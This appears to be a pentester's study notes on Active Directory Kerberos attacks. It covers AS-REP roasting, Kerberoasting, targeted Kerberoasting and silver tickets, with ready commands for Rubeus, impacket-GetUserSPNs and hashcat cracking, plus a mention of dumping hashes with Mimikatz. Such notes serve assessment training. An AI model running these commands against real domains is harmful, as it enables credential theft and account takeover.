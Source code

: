 ```bash
PS C:\Tools> .\Rubeus.exe asreproast /nowrap
```

If no users have the "Do not require Kerberos preauthentication" enabled, but you have GenericWrite or GenericAll on another AD user account, you could reset their password (which would lock them out), or better yet change UAC permissions to enable "Do not require Kerberos preauthentication".

#### Kerberoasting

If we know the SPN  we want to target, we can request a service ticket for it from the domain controller. The service ticket is encrypted using the SPN's password hash. If we are able to request the ticket and decrypt it using brute force or guessing, we can use this information to crack the cleartext password of the service account.

We'll provide hashes.kerberoast as an argument for /outfile to store the resulting TGS-REP hash in. Since we'll execute Rubeus as an authenticated domain user, the tool will identify all SPNs linked with a domain user.

```bash
# Sync the time
net time \\dc01.corp.local /set
Get-NetAdapter ethernet0* | Set-DnsClientServerAddress -ServerAddress @('192.168.45.213')
# Method from Windows
PS C:\Tools> .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

# Method from Linux
kali@kali:~$ sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
# If impacket-GetUserSPNs throws the error "KRB_AP_ERR_SKEW(Clock skew too great)," we need to synchronize the time of the Kali machine with the domain controller. We can use ntpdate or rdate to do so.
kali@kali:~$ sudo hashcat -m 13100 hashes.kerberoast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Manual version in case Rubeus doesn't work, "https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting".

Let's assume that we are performing an assessment and notice that we have GenericWrite or GenericAll permissions on another AD user account. As stated before, we could reset the user's password but this may raise suspicion. However, we could also set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting. 

#### Silver Tickets

In general, you need to collect the following three pieces of informaiton to create a sliver ticket:
	1. SPN password hash
	2. Domain SID
	3. Target SPN

If you are a local Administrator on this machine where iis_service (the SPN) has an established session, we can use Mimikatz to retrieve the SPN password hash (NTLM hash of iis_service). If you have the password, you can generate the NTLM hash with codebeautify.org.
